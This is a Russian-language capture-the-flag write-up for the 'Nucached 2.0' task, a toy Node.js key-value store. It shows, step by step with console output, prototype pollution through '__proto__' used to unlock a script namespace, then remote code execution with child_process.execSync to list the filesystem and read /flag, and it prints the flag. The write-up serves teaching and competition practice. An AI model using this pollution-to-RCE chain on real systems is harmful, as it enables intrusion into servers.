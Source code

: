 # Nucached 2.0: Write-up

*Сначала рекомендуется прочесть [разбор задания Nucached](../nucached/WRITEUP.md).*

Проделав тот же фокус, что и в предыдущей версии задания, получаем неутешительный результат:

```
> set main.__proto__.readable 1
success

> ls
Store secrets:
  secrets.flag = "this_is_not_the_flag_you_are_looking_for"
  secrets.readable = 1
Store main:
  main.hello = "Hello, world!"
  main.readable = 1
Store scripts (unwritable) (executable):
  scripts.ping = "\"Pong\""
  scripts.uptime = "((Date.now() - startedDate) / 1000) + \"s\""
  scripts.readable = 1
Store readable (unwritable) = undefined
```

Особо настойчивые люди могут специально убедиться, что флаг `this_is_not_the_flag_you_are_looking_for` не работает. Отматываем всё назад.

Итак, по сравнению с предыдущей версией задания, появился дополнительный раздел `scripts`:

```
> ls
Store secrets (unreadable) = ???
Store main:
  main.hello = "Hello, world!"
Store scripts (unwritable) (executable):
  scripts.ping = "\"Pong\""
  scripts.uptime = "((Date.now() - startedDate) / 1000) + \"s\""
```

По-видимому, там хранятся произвольные скрипты, которые затем можно исполнять?..

```
> help
nucached: a revolutionary alternative to memcached!
(c) 2003, Vasya Pupkin
Usage:
  help: Show this message
  get key: Show key key
  set key value: Set the value of key to value
  ls: List all keys
  exec key: Execute script from key key
Nested key-value objects are supported, e.g. set a.b.c value.
```

Да, действительно. Убедимся, что все работает:

```
> exec scripts.uptime
"74.42s"
```

Попробуем добавить свой скрипт:

```
> set scripts.test "1 + 2"
unwritable namespace scripts
```

Действительно. Исходных кодов у нас нет, но из исходного кода первой задачи и из общих размышлений можно догадаться, что нужно установить поле `writable` (а не `readable`) тем же методом:

```
> set main.__proto__.writable 1
success

> set scripts.test "1 + 2"
success

> exec scripts.test
3
```

Итак, у нас, по-видимому, есть RCE. Осталось понять, как в NodeJS выполнять консольные команды. Пять минут гугления спустя видим документацию модуля [child_process](https://nodejs.org/docs/latest/api/child_process.html) и функции `execSync`. Составляем эксплоит:

```
> set scripts.test "require('child_process').execSync('ls -la /')"
success

> exec scripts.test
{"type":"Buffer","data":[116,111,...,114,10]}
```

Такой ответ неудобно читать глазами, поэтому переведём в текст в UTF-8:

```
> set scripts.test "require('child_process').execSync('ls -la /', {encoding: 'utf-8'})"
success

> exec scripts.test
"total 60\ndrwxr-xr-x    1 root     root           120 Mar 12 13:00 .\ndrwxr-xr-x    1 root     root           120 Mar 12 13:00 ..\ndrwxr-xr-x    3 root     root          4096 Mar 11 10:43 app\ndrwxr-xr-x    2 root     root          4096 Feb 22 18:25 bin\ndrwxr-xr-x    1 root     root           320 Mar 12 13:00 dev\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 etc\n-rw-r--r--    1 nobody   nobody          54 Mar 12 13:00 flag\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 home\ndrwxr-xr-x    7 root     root          4096 Feb 22 18:25 lib\ndrwxr-xr-x    5 root     root          4096 Feb 10 16:45 media\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 opt\ndr-xr-xr-x  259 nobody   nobody           0 Mar 12 13:00 proc\ndrwx------    4 root     root          4096 Feb 22 18:25 root\ndrwxr-xr-x    1 root     root            40 Feb 10 16:45 run\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 sys\ndrwxrwxrwt    1 root     root            60 Mar 12 13:01 tmp\ndrwxr-xr-x    7 root     root          4096 Feb 22 18:25 usr\ndrwxr-xr-x   12 root     root          4096 Feb 10 16:45 var\n"
```

Отформатируем:

```
total 60
drwxr-xr-x    1 root     root           120 Mar 12 13:00 .
drwxr-xr-x    1 root     root           120 Mar 12 13:00 ..
drwxr-xr-x    3 root     root          4096 Mar 11 10:43 app
drwxr-xr-x    2 root     root          4096 Feb 22 18:25 bin
drwxr-xr-x    1 root     root           320 Mar 12 13:00 dev
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 etc
-rw-r--r--    1 nobody   nobody          54 Mar 12 13:00 flag
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 home
drwxr-xr-x    7 root     root          4096 Feb 22 18:25 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 opt
dr-xr-xr-x  259 nobody   nobody           0 Mar 12 13:00 proc
drwx------    4 root     root          4096 Feb 22 18:25 root
drwxr-xr-x    1 root     root            40 Feb 10 16:45 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sys
drwxrwxrwt    1 root     root            60 Mar 12 13:01 tmp
drwxr-xr-x    7 root     root          4096 Feb 22 18:25 usr
drwxr-xr-x   12 root     root          4096 Feb 10 16:45 var
```

Читаем `/flag`:

```
> set scripts.test "require('child_process').execSync('cat /flag', {encoding: 'utf-8'})"
success

> exec scripts.test
"ugra_you_should_have_rewritten_it_in_rust_uvk66bmc8mkq"
```

Флаг: **ugra_you_should_have_rewritten_it_in_rust_uvk66bmc8mkq**
